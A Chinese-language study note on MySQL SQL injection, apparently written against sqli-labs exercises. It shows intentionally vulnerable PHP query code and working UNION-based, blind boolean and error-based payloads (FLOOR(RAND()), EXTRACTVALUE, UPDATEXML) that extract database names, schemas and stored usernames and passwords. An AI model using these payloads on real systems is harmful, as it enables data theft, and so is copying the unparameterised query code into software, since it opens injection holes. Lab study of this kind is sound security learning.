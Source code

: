 #MYSQL注入笔记
##数据库信息
设数据库```security```里有如下```users```表。

```
mysql> desc users;
+----------+-------------+------+-----+---------+----------------+
| Field    | Type        | Null | Key | Default | Extra          |
+----------+-------------+------+-----+---------+----------------+
| id       | int(3)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(20) | NO   |     | NULL    |                |
| password | varchar(20) | NO   |     | NULL    |                |
+----------+-------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)
```

##构造注入SQL之一【GET - ErrorBased - IntegerBased】
###1. 漏洞代码

大致PHP代码如下

```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'Your Login name:'. $row['username'];
	echo "<br>";
	echo 'Your Password:' .$row['password'];
} else {
	print_r(mysql_error());
}
```
通过提交```?id=1 AND 1=1```和```?id=1 AND 1=2```来判断

###2. 猜解字段数

通过``` UNION ALL SELECT NULL```中的```NULL```来猜解表的字段数，例如对于```users```表采用```SELECT *```的话就需要把SQL构造成``` UNION ALL SELECT NULL, NULL, NULL#```，如果采用```SELECT username, password```就只需要``` UNION ALL SELECT NULL, NULL#```就能判断出了。因此如果程序中写的不是```SELECT *```的话，猜解出来的字段数与实际可能不太一样。

###3. 获取MySQL信息

如果想要获取数据库的一些信息可以利用已经显示出来的字段，在构造注入代码的时候将这些信息替换到已经显示的字段里。

例如对于```SELECT * FROM users WHERE id=1```，得到

```
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

对于```SELECT * FROM users WHERE id=1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```，还是得到一样的结果。说好的数据库信息呢？

```
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | Dumb     | Dumb     |
+------+----------+----------+
1 row in set (0.00 sec)
```

所以还要对```SQL```语句稍加改造```SELECT * FROM users WHERE id=-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```就可以得到想要的结果

```
+------+----------------+----------+
| id   | username       | password |
+------+----------------+----------+
| NULL | sqli@localhost | NULL     |
+------+----------------+----------+
1 row in set (0.00 sec)
```
因此如果网页上展示了username，那么就能直接得到当前连接数据库的用户名。因此我们提交的构造代码关键部分为```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```。另外需要注意的是构造出来的字段数要与原始正常```SQL```字段数相同。

* 获取当前连接数据库的用户名 ```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```
* 获取当前数据库的名字	```-1 UNION ALL SELECT NULL, DATABASE(), NULL```
* 获取当前数据库的版本号 ```-1 UNION ALL SELECT NULL, VERSION(), NULL```
* 获取当前服务器上数据库数量 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.SCHEMATA), NULL```
* 如果不能直接通过网页得到数据库数量，可以通过```1 AND ORD(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema_name)) AS CHAR),CHAR(32)) FROM information_schema.SCHEMATA),1,1)) > ord('1') ```来猜解。
* 猜解表名```1 AND ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),CHAR(32))) FROM information_schema.SCHEMATA LIMIT 0,1),1,1)) > ord('a')``` 当猜解的字母的值只有```>=0```成功时，表示该表名猜解完成。（其中```LIMIT x,y```中```x```表示从第几条记录开始查询，```y```表示最多要查询多少条记录）。通过变动```MID```和```LIMIT```的参数就可以把所有表名猜解完。
* 猜解表的字段数 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.COLUMNS where table_name='users' AND table_schema='security'), NULL``` 或 ```-1 UNION ALL SELECT NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)), NULL FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121)```
* 逐个猜解字段 ```-1 UNION ALL SELECT NULL, CONCAT(column_name, ' ', column_type), NULL FROM information_schema.COLUMNS where table_name='users' AND table_schema='security' LIMIT 0,1 ``` 或 ```-1 UNION ALL SELECT NULL, CONCAT(IFNULL(CAST(column_name AS CHAR),CHAR(32)), ' ', IFNULL(CAST(column_type AS CHAR),CHAR(32))), NULL FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121) LIMIT 0,1```
* 猜解记录数```-1 UNION ALL SELECT NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)), NULL FROM security.users```
* 逐个获取字段```-1 UNION ALL SELECT NULL, CONCAT(IFNULL(CAST(id AS CHAR),CHAR(32)), ' ',IFNULL(CAST(username AS CHAR),CHAR(32)), ' ', IFNULL(CAST(password AS CHAR),CHAR(32))), NULL FROM security.users LIMIT 0,1```

##构造注入SQL之二【GET - ErrorBased - SingleQuotes - String】
###1.漏洞代码
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'Your Login name:'. $row['username'];
	echo "<br>";
	echo 'Your Password:' .$row['password'];
} else {
	print_r(mysql_error());
}
```

###2.注入思路
通过提交```?id=1' AND '1'='1```和```?id=1' AND '1'='2```来判断。
其它与IntegerBased相似。如获取当前数据库的名字为```-1' UNION ALL SELECT NULL, DATABASE(), NULL AND '1'='```


##构造SQL注入之三
###1.漏洞代码
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'You are in...........';
}
else {
	print_r(mysql_error());	
}
```
本代码的特点是不会在网页上输出任何字段值。
###2.注入思路
由于程序代码并不在网页上显示任何字段，因此我们如果想要得到数据库的一些信息得另外想办法。有一个方法是利用程序执行SQL时产生的错误会显示到网页上这一点，将要显示的信息嵌入错误信息里。对于MySQL利用的模板代码为```SELECT COUNT(*), CONCAT(CURRENT_USER(), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;```会得到类似```ERROR 1062 (23000): Duplicate entry 'sqli@localhost1' for key 'group_key'```的错误提示。经典的MySQL报错代码还有

* ```SELECT 1,2 UNION SELECT COUNT(*), CONCAT(CURRENT_USER(), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;```
* ```SELECT COUNT(*) FROM (SELECT 1 UNION SELECT NULL UNION SELECT !1) GROUP BY CONCAT(CURRENT_USER(), FLOOR(RAND(0)*2))```
* 如果RAND被禁,可以使用用户变量来报错 ```SELECT MIN(@a:=1) FROM information_schema.tables GROUP BY CONCAT(password, @a:=(@a+1)%2)```

在mysql 5.1版本中加入了两个XML函数，也可以用来报错

* ```mysql> SELECT * FROM users WHERE id=1 AND EXTRACTVALUE(1, CONCAT(0x5C, (SELECT username FROM users LIMIT 1)));
ERROR 1105 (HY000): XPATH syntax error: '\Dumb'```
* ```mysql> SELECT * FROM users WHERE id=1 AND 1=(UPDATEXML(1, CONCAT(0x5E24, (SELECT password FROM users LIMIT 1), 0x5E24), 1));
ERROR 1105 (HY000): XPATH syntax error: '^$Dumb^$'```

